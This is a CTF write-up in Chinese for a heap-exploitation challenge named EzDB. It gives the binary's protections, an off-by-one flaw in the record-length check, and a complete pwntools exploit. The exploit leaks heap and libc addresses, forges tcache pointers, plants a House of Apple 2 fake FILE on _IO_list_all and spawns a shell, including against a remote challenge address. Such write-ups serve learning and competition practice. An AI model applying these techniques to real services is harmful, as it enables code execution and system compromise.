



# EzDB

> The flag is located in the /flag, in the format of flag{.+}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.35-0ubuntu3.8|

## 解题思路

经典菜单题，可以分配page、向其中写入record。page的分配与释放没有漏洞，
但是添加record时，其判断条件为`top - memend + 1 < varlen + 4`。
各结构体的作用与record在page中的存放方式如下图所示：



在拥有了堆上任意读写后，可以先分配大量page并释放，填满tcache后放入unsorted bin。
然后读取就可以泄露heap和libc。我们可以将corrupted record放在page 0中，
稍后方便控制堆块。按照page 1-8的顺序释放，这样控制tcache堆块时相对方便些。



注意到edit record不会释放堆块，我们可以尽情使用edit消耗tcache，
然后修改page 2里0x30的堆块（应对tcache count），实现任意地址分配，
最后往`_IO_list_all`上写fake file走apple。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './db'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x1bad)')
    else:
        sh = remote('61.147.171.106', 64245)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.8_amd64/libc.so.6')
    elf = ELF(EXE)

    def create(idx: int):
        sh.sendlineafter(b'---\n', b'1')
        sh.sendlineafter(b'Index', str(idx).encode())

    def remove(idx: int):
        sh.sendlineafter(b'---\n', b'2')
        sh.sendlineafter(b'Index', str(idx).encode())

    def insert(idx: int, varlen: int, varchr: bytes):
        sh.sendlineafter(b'---\n', b'3')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Length', str(varlen).encode())
        sh.sendafter(b'Varchar', varchr)

    def get(idx: int, slot: int) -> bytes:
        sh.sendlineafter(b'---\n', b'4')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Slot', str(slot).encode())
        sh.recvuntil(b'Varchar: ')
        return sh.recvuntil(b'\n-------', True)

    def edit(idx: int, slot: int, varlen: int, varchr: bytes):
        sh.sendlineafter(b'---\n', b'5')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Slot', str(slot).encode())
        sh.sendlineafter(b'Length', str(varlen).encode())
        sh.sendafter(b'Varchar', varchr)

    def leave():
        sh.sendlineafter(b'---\n', b'6')

    main_arena = 0x21ac80
    PROTECT_PTR = lambda pos, ptr: (pos >> 12) ^ ptr

    create(0)
    insert(0, 0x3fd, b'\x30')
    for i in range(1, 10):
        create(i)
    for i in range(1, 9):
        remove(i)

    leak = get(0, 0)
    heapBase = (u64(leak[0x42d:0x42d + 8]) << 12) - 0x12000
    success(GOLD_TEXT(f"Leak heapBase: {heapBase:#x}"))
    libcBase = u64(leak[0x223d:0x223d + 8]) - main_arena - 0x60 # unsorted bin offset
    success(GOLD_TEXT(f"Leak libcBase: {libcBase:#x}"))
    libc.address = libcBase

    heap = heapBase + 0x12330
    # House of Apple 2 payload
    file = flat({
        0:      b'  sh;\0',
        0x28:   1,
        0x68:   libc.symbols['system'],
        0xa0:   heap,
        0xd8:   libc.symbols['_IO_wfile_jumps'],
        0xe0:   heap,
    }, filler=b'\0')

    tosend = flat(b'\x30'.ljust(0x3fd, b'\0'), {
        8:      0x21, # tcache bin 0
        0x10:   PROTECT_PTR(heapBase + 0x122e0, 0), # 0x20's fd
        0x28:   0x411,  # next tcache
        0x50:   file,   # force file at that 0x410 chunk
        0x438:  0x31,   # make heap command happy
        0x468:  0x31,   # our 0x30 tcache to hijack
        0x470:  PROTECT_PTR(heapBase + 0x12740, libc.symbols['_IO_list_all'])
    }, filler=b'\0')

    edit(0, 0, 0x890, tosend)
    for _ in range(6):
        edit(0, 0, 0x20, b'\x30skip')
    edit(0, 0, 0x20, p64(heap))
    leave()
    
    sh.clean()
    sh.interactive()
    sh.close()
```


